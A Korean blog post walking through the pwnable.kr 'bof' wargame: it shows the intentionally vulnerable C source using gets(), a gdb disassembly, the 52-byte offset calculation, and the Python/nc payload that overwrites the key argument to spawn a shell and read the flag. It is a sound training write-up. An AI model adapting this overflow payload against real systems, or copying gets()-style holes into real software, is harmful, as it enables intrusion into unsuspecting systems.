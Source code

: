 ```yaml
---
layout: post
title: Toddler's Bottle - bof 문제풀이
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Pwnable.kr
---
```


`Pwnable.kr` 문제에서 3번째 문제인 `bof` 문제를 풀어보았다.  

이번 문제는 로컬 문제가 아니라 리모트로 접속 해 풀어야 하는 문제이다.  

<!--more-->

때문에 `bof` 문제에서는 `bof` 실행파일과 `bof.c`라는 소스코드를 다운로드 할 수 있는 링크와 리모트로 접속할 수 있는 정보를 제공해준다.  

* [http://pwnable.kr/bin/bof](http://pwnable.kr/bin/bof)
* [http://pwnable.kr/bin/bof.c](http://pwnable.kr/bin/bof.c)
* nc pwnable.kr 9000

`bof.c`의 소스코드를 확인해 보면 아래와 같다.  

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`main` 함수에서는 `0xdeadbeef`를 인자로 해 `func` 함수를 호출한다.  

`func` 함수에서는 먼저 `32 byte` 의 char 형 변수인 `overflowme`를 선언하고, 해당 변수에 `gets` 함수를 통해 입력을 받아 저장한다.  

* gets 함수
	* 함수 원형 : gets(char * str)
	* 표준 입력에서 문자열을 가져온다.
	* 이 때, 개행 문자(\n)이나 파일 끝(EOF)를 만나기 전까지 가져오는데, 크기를 따로 검사하지 않기 때문에 `overflow` 가 일어날 수 있다.

이 후, 만약 `func` 함수에 인자로 넘어 온 `key`의 값이 `0xcafebabe`와 같다면 `system` 함수를 통해 `/bin/sh`를 실행시켜 준다.  

`func` 함수에서 `gets` 함수를 통해 문자열을 입력 받는데, 문자열의 길이를 검사하지 않는다.  

때문에 `overflow`를 발생시킬 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_01.PNG)  

위의 그림은 `func` 함수를 호출했을 때의 `stack` 모습니다.  

`func` 함수를 호출하면 스택에는 `func` 함수의 인자인 `key(0xdeadbeef)` 스택에 저장하고, `return address`와 `SFP`를 차례로 스택에 저장한 후, `func` 함수에서 사용 할 지역 변수인 `overflowme`를 위한 공간을 할당한다.  

이 때, `overflowme`는 `32 byte`의 공간을 할당받았지만 `gets` 함수에서 문자열의 길이를 확인하지 않아 아래와 같이 `overflow`가 발생할 수 있다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_02.PNG)  

`overflowmw`에 충분한 값을 입력한 후, `func` 함수의 인자인 `key`의 값이 저장된 위치에 `0xcafebabe`를 덮어 쓴다면 `system("/bin/sh")`가 실행되며 쉘을 얻을 수 있다.  

문제를 풀기 위해선 `overflowme`와 `key` 사이의 거리를 알아야 한다.  

이를 알기 위해 `gdb`를 사용했다.  

```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:	call   0xf7e75ca0 <puts>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e753e0 <gets>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:	call   0xf7e50da0 <system>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:	call   0xf7e75ca0 <puts>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0xf7f0d680 <__stack_chk_fail>
   0x56555688 <+92>:	leave  
   0x56555689 <+93>:	ret    
End of assembler dump.
```

먼저 `key`의 값을 비교하는 부분인 `0x56555654 <+40>`에 `break point`를 걸고 `32 byte` 만큼을 입력 해 보았다.  

```
(gdb) r
Starting program: /home/ccoma/pwnable.kr/bof 
overflow me : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x56555654 in func ()
```

실행 후 확인해 본 결과 아래와 같았다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_03.PNG)

`0xffffd5cc` 부터 `overflowme`가 시작되며, `0xffffd600` 위치에 `key`의 값인 `0xdeadbeef`가 저장되어 있는 것을 알 수 있다.  

두 변수 간의 거리는 다음과 같다.  

* 0xffffd600 - 0xffffd5cc = 0x34 (= 52)

즉, 두 변수는 `52 byte` 만큼 떨어져 있다.  

따라서 쉘을 얻기 위해서는 `52 byte` 만큼의 값을 입력하고, 이 후 `0xcafebabe`를 입력 해 주면 `overflow`가 발생하며 `func`의 인자인 `key`의 값을 덮어쓸 수 있을 것이다.  

이를 실행해본 결과 다음과 같이 쉘을 얻을 수 있었다.  

파일을 확인해 본 결과 `flag` 파일이 있어, 이를 실행했더니 `flag`를 얻을 수 있었다.  

![]({{ site.baseurl }}/images/pwnable.kr/bof/bof_04.PNG)

```
ccoma@vultr:~$ (python -c 'print "a"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

```
daddy, I just pwned a buFFer :)
```
